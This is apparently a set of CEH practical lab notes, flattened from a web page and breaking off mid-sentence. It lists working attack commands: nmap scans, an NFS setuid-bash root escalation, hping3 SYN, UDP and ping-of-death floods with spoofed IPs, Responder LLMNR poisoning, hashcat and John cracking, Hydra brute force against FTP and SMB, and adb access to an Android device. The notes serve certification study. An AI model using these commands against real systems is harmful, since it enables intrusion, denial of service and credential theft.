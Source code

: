 Notes/Exercises Type of Exercises Nmap Identify all active hosts in a network nmap -sP /Subnet Do a Stelth Scan, Invading firewall, IDS/IPS nmap -sS -p 80, 443 /Subnet Identify the OS of the machine hosting a DB To check target with open DB port (3306 or 1433): nmap -sV IP/s ubnet or nmap -A IP/subnet or nmap -p3306,1433 IP/subnet and check relative info about OS. Locate IP address of the machine with RDP open port nmap -Pn -p -sV 3389 prim Find FQDN of domain controller FQDN (FQDN = Hostname + Domain) an example can be: mail.example.com mail (hostname), example.com (domain). Scan subnet or target filtering for LDAP port (389):  or or   nmap -p389 -sV -iL  -> if we've more targets IP nmap -p389 -sV nmap -p 389 --script ldap-rootdse If LDAP port is filtered or closed, we should try to scan host using following parameters:  nmap -Pn -A In alternative we can find following ports opened: 88 (Kerberos), 636 (LDAPS), 3268 (LDAP Global). Running nmap command we'll retrieve info about Domain and Host name:   Domain: pentester.team Service Info: Host: DC; then FQDN = DC.pentester.team Identify the number of hosts that are alive to checks hosts up: nmap -sn IP/Subnet Identify potential vulnerabilities of services  nmap -Pn --script vuln Perform vertical privilege escalation of a root user, and enter the flag Exploiting misconfigured NFS (port 2049)             nmap -sV —p 2049 IP/Subnet sudo apt-get install nfs-common nmap -sV —script=nfs-showmount check available mounts: showmount -e  -> we will see /home directory mkdir /tmp/nfs sudo mount -t nfs 10.10.1.9:/home /tmp/nfs cd /tmp/nfs sudo cp /bin/bash . sudo chmod +s bash -> it will be highlighted in red ls -la sudo df -h sudo chmod +s bash after them, In another terminal:      Access to target using SSH ./bash -p and we're root! cd /home ls -la Find the flag: find / -name "*.txt" -ls 2> /dev/null WireShark Which machine started DOS attack? DDOS attack happened on which IP? Find out http crediantls from PCAP file? To find DOS (SYN and ACK) :   statistic -> IPv4 statistics -> source and destination address f ilter using: tcp.flags.syn == 1 or tcp.flags.syn == 1 and tcp.flags.ack == 0 or filter to highest number of request Analyze the pcap file and determine the number of machines that were involved in DDOS attack  Or Or  statistic -> IPv4 statistic -> source and destination address View Flood attack on victim via Wireshark | use filter tcp.port=21 Find the dos attacker ip using Wireshark Statistic -> conversion identified ip , which has flooding server with SYN request. Or get the statistics of ipv4 -> we can see that Packets B -> A are null, because the're not reply pack. To find passwords : http.request.method == POST To find DOS -> Look for Red and Black packets with around 1-2 simple packets in between and then pick any packet and check the Source and Destination IP with port if need. SYN DDOS Attack using Hping hping3 -S 1.1.1.6 -a 1.1.1.3 -p 22 --flood 1.1.1.6 is target IP 1.1.1.3 is the spoof IP 22 is port number. POD - Ping of Death Attack hping3 -d 65538 -S -p 21 --flood 1.1.1.6-d is data size-S is syn packets-p is port (you can flood any app with open ports. UDP Flood attack hping3 -2 -p 139 --flood 1.1.1.6-2 is for UDP-p is port Identify IoT Message and its Length using capture.cap    or  Filter .cap file on wireshark with 'MQTT' filter Select packet related to Publish Message Click on MQ Telemetry Transport Protocol -> Header Flags -> Message Msg Len Click on MQ Telemetry Transport Protocol -> Publish Message -> Msg Len BCTextEncoder Decrypt the encoded secret and enter the decrpted text as the answer Use BCTextEncoder to decrypt the encoded secret file, psw can be the same of SMB login {% content-ref url="../tools/bctextencoder.md" %} bctextencoder.md {% endcontent-ref %} LLMNR Poisoning NTML Hash cracking Responder: responder -I eth0 -rdwv Copy the hash from responder to ntlmhash.txt and crack it using Hashcat or John Hashcat hashcat -m 0 -a 0 hash.txt passwordlist.txt -m 0   hashcat -m 5600 ntlmhash.txt /usr/share/wordlists/rockyou.txt MD5 hash mode -a 0: Dictionary attack mode hash.txt txt file containing hash in a compliant format passwordlist.txt: dictionary file containing passwords in plain text John the Ripper   john —format-raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt john /usr/share/responder/logs/SMB-NTLMv2-SSP-1.1.15.txt Hydra Crack the FTP credentials to obtain file stored into FTP server an enter the content as the answer     Find IP with FTP open port: nmap -p 21 IP/Subnet if we know username: hydra -l user -P passlist.txt ftp://IP if we don't know username and psw: hydra -L /user.txt -P password.txt ftp://IP or hydra -L /home/attacker/Desktop/CEH_TOOLS/Wordlists/Username.txt -P /home/attacker/Desktop/CEH_TOOLS/Wordlists/Password.txt ftp://IP Login using FTP credentials obtained, get flag and cat it. {% content-ref url="../tools/hydra.md" %} hydra.md {% endcontent-ref %} Crack the SMB credentials knowing username to obtain file stored into share Brute force smb login hydra -l -P /usr/share/wordlists/rockyou.txt smb Download file stored into share smbmap -u -p '' -H --download 'C$\flag.txt' Entropy Perform deep scan on the elf files and obtain the last 4 digits of SHA 384 hash of the file with highest entropy value locate into android folder         Scan adb port: nmap ip -sV -p 5555 Connect adb: adb connect IP:5555 Access mobile device: adb shell Elevate privilege using: sudo -i (if it is possile) pwd --> ls --> cd sdcard/Notifications/Scan --> ls --> cat secret.txt (If you can't find, check in others folders) Download files: adb pull /sdcard/Notifications/Scan Do it in another shell, without adb connection! We've three elf files, now we need to calcolate entropy for each of them using this command: ent file.elf After selecting file.elf with highest entropy, we need to calculate hash of SHA